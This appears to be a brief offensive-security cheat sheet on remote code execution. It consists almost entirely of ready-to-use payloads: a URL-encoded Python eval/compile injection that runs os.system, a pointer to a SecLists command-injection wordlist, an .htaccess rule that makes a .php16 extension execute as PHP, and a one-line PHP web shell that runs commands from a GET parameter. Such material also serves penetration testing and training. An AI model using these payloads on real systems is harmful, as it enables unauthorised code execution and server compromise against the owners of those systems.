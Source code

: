 Python RCE using eval():
---
#rce #python #eval

Python "eval" payload:
```python
'%2beval(compile('for x in range(1):\n import os\n os.system("$CMD")','anything','single'))%2b'
```

Seclists RCE Payloads
```lists
/usr/share/seclists/Fuzzing/command-injection-commix.txt
```

Bypassing PHP File upload execution:
---
.htaccess :

```
AddType application/x-httpd-php .php16
```
and cmd.php16
```php
<?php system($_GET['cmd']); ?>
```

